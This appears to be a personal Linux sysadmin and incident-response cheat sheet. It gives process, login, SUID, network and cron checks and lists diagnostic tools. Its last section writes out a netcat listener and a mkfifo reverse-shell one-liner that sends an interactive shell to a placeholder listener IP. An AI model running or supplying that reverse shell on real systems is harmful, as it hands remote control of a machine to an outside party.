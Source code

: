 ...

## **error:25066067:DSO support routines:dlfcn_load:could not load the shared library**

tmp fix: `export OPENSSL_CONF=/dev/null`

`export TERM=xterm-256color`

"eval `ssh-agent` && ssh-add"


## Load snaps profile

`sudo apparmor_parser -r /var/lib/snapd/apparmor/profiles/*`

## Checks

### System
- `ps -ef`
- `top -p PID`
- `uname -a; env; history`
- `systemctl list-unit-files`
- `tail -f /var/log/messages`
- `find / -mtime -7`
- `find / -type f -mmin -60`
- `nmap -sT -v localhost`
- `find /dir -executable -type f`

### Who
`who; w; last`

### Super users
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'`

### SUID / GUID
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 2> /dev/null`
- `find / -type f -perm -02000 2> /dev/null`

### Net status
- `ss -antup; lsof -i`
- `netstat -anp`

### List crons
`crontab -l; ls -la /etc/cron*`

### history

`~/.bash_history`

### Create file

`dd if=/dev/zero of=foobar.txt bs=1M count=<number_of_megabytes>`

## Commands
```shell
strace # Display the system calls and signals of a specific program
lsof # List open files (process)
stat # Display file or file system status
modinfo # Show information about a Linux Kernel module
modprobe # Add and remove modules from the Linux Kernel
lsmod # Show the status of modules in the Linux Kernel
dmesg # Print or control the kernel ring buffer (logs)
watch # Execute a program periodically, showing output fullscreen
xxd # Make a hexdump or do the reverse
readelf # Display information about ELF files
objdump # Display information from object files
strings # Display text strings embedded in binary
exiftool # Show/Remove files metadata
```

### -1

`nc -lvp 4444`
```sh
mkfifo /tmp/fifo
sh -i < /tmp/fifo 2>&1 | nc IP_LISTENER 4444 > /tmp/fifo
```
